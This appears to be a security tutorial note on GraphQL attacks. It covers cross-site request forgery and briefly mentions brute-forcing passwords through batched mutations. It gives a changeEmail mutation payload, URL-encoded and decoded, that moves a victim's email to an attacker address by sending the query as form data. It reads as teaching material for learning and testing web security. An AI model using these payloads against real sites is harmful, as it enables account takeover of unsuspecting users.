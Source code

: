 Attempt to send all login credentials at once using mutations to brute force the password:

![[mobilemail.png]]
# GraphQL CSRF

GraphQL can allow a CSRF attack to take place whereby an attacker creates an exploit that causes a victim's browser to send a malicious query as the victim. 

>[!info]
>POST requests that are JSON are secure as long as the content type is validated.

Alternative methods like GET or a request that uses `x-www-form-urlencoded` can be sent by a browser. Attackers can craft malicious requests to send to the API. 
# Performing CSRF Exploits over GraphQL

Try to observe any sensitive functionality (changing email, updating account information, etc...):

![[EmailGraphQL.png]]

Check if you can use the session cookie to send multiple requests by changing the email and re-submitting the request. If so, attempt to change the request method to `application/x-www-form-urlencoded` either manually or by "Change request method" twice.

As an example, a standard email change request may be:

```json
{
  "query": "\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n",
  "operationName": "changeEmail",
  "variables": {
    "input": {
      "email": "attacker@test.net"
    }
  }
}
```

Try re-submitting with a new email to ensure a session token can be reused to send many requests. After changing the request method, add it back as non-JSON data:

```json
query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

![[CSRFBody.png]]

Which decodes to:

```json
query=
    mutation changeEmail($input: ChangeEmailInput!) {
        changeEmail(input: $input) {
            email
        }
    }
&operationName=changeEmail&variables={"input":{"email":"hacker@hacker.com"}}
```
